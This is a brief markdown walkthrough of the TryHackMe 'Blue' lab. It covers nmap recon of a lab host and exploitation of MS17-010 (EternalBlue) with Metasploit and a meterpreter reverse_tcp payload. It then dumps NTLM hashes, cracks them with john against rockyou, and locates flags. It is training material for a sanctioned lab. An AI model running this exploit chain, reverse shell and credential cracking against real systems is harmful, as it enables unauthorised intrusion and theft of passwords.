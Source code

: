 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

```
nmap -A 10.10.68.22
```

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (1).png" alt="" data-size="original">

The box is vulnerable to ms17-010

```
nmap -p135,139,445,3389 --script=vuln 10.10.68.22
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate

```
msfconsole 
search eternalblue 
use exploit/windows/smb/ms17_010_eternalblue 
set payload windows/x64/meterpreter/reverse_tcp 
set RHOSTS 10.10.68.22 
run
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Cracking

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (2).png" alt=""><figcaption></figcaption></figure>

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure><img src="../../.gitbook/assets/image (3) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

```
cd C:\
dir "flag*" /s
```

<figure><img src="../../.gitbook/assets/image (5) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
